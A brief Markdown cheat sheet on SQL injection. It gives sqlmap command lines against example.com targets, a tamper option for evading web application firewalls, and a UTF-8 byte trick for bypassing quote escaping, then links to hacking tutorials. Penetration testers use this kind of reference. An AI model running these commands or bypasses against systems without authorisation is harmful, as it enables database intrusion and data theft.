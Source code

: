 # SQLi

## sqlmap

- https://github.com/sqlmapproject/sqlmap

```
# request in txt
sqlmap -r search-test.txt -p parameter

# post
sqlmap -o -u "http://example.com/index.php?id=1" --data="username=admin&password=pass&submit=+Login+" --method=POST
# get
sqlmap -u "http://example.com/index.php?id=1"

# with point of injection (*)
sqlmap -u "http://example.com/index.php?id=1*-133&debug=true"

# risk
sqlmap -u "http://example.com/index.php?id=1" --risk=3 --level=5

# headers
sqlmap --headers="HEADER"
```

## Temper

The ability to create payloads that can bypass waf

- https://github.com/m4ll0k/Atlas

Example:
```
--tamper="between,randomcase"
```

## Tricks

Sometimes sites append an extra (') character in injection. It is possible to bypass this behavior by abusing UTF-8. 
\xc2 asks for a follow up byte, the decoding of \xc2' (\xc2\x27) would result in a bypass.

## Articles

| URL | 
| --- |
| https://www.binarytides.com/sqlmap-hacking-tutorial/ |
|https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html|
